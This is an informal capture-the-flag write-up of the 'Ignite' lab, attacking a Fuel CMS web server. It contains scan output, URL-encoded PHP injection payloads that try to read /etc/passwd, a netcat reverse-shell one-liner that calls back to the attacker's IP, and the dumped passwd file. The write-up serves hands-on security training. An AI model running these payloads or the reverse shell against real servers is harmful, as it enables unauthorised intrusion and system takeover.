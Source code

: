 # Ignite -> A new start-up has a few issues with their web server.

```
export IP=10.10.192.215
```

- Took my first look at the `robots.txt` file and got some clues already. :)
- Nmap scan came back and doesnt look encouraging at all.
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-20 16:13 GMT
Nmap scan report for 10.10.192.215
Host is up (0.54s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

- Results from gobuster scan.
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/assets (Status: 301)
/home (Status: 200)
/index.php (Status: 200)
/index (Status: 200)
/offline (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```

- Something tells me that `/fuel` path that has a disallowed access is fishy.

- got some payload of the internet 
```
http://10.10.192.215/fuel/pages/select/?nocache=1507880376191&input=&target=&title=&class=&pdfs=&filter=%3C%3F%20phpinfo%28%29%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/../../../../../etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include%20%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F+include+%27%2Fetc%2Fpasswd%27%3B++%3F%3E

%27%2b phpinfo() %2b%27
```

- It works now i just have to build my payload and use it to read some daunting files from the system.
- Ive tried things, nothing works on the website and it gives no info. Went to read some walkthroughs and stuff like that. Even went to look for vulnerabilities associated with the version of fuel cms used but it still gave me headache. I have not given up.. i am just going to learn new ways LOL.

- I got an exploit that allowed remote code execution on the target system, through fuel cms. About to get reverse shell now.
```
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.29.246 9999 >/tmp/f"

```

- /etc/passwd file
```
systemroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false

```
